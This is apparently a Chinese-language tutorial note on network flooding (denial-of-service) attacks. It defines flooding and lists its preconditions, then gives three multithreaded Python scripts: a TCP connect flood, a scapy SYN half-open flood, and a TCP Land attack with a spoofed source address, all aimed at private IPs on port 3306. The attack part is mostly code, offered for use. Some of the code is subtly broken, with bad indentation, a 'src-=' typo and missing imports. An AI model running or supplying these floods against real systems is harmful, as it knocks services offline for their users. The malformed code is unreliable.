# 泛洪

## 一、基础

### 1.什么是泛洪

- 泛洪的基本原理就是基于协议通信，完成大流量高并发操作，导致目标主机各类资源消耗过多资源而无法提供正常服务。基于多线程或多进程（MAC地址泛洪、ARP泛洪欺骗）

### 2.利用条件

- 供给端和目标主机之间能够正常通信
- 目标主机没有配置很好防御措施

### 3.使用socket三次握手泛洪

```python
def socket_flood():
    while True:
    	s = socket.socket()
    	s.connect(('192.168.101.2',3306))
    
if __name__ == '__main__':
    for i in range(500):
        threading.Thread(target=socket_flood).start()
```

### 4.使用scapy半连接泛洪

```python
def scapy_flood():
    while True:
        sport=random.randint(10000,30000)
        send(IP(dst="192.168.101.9")/TCP(sport=sport,dport=3306,flags='S'))
        
        
if __name__ == '__main__':
for i in range(500):
    threading.Thread(target=scapy_flood).start()
```

### 5.TCP Land泛洪

- 源IP地址和目的IP地址是同一个

```python
def scapy_flood():
    while True:
        sport=random.randint(10000,30000)
        send(IP(src-='192.168.101.9',dst="192.168.101.9")/TCP(sport=sport,dport=3306,flags='S')/"hello,world")
        
        
if __name__ == '__main__':
for i in range(500):
    threading.Thread(target=scapy_flood).start()
```
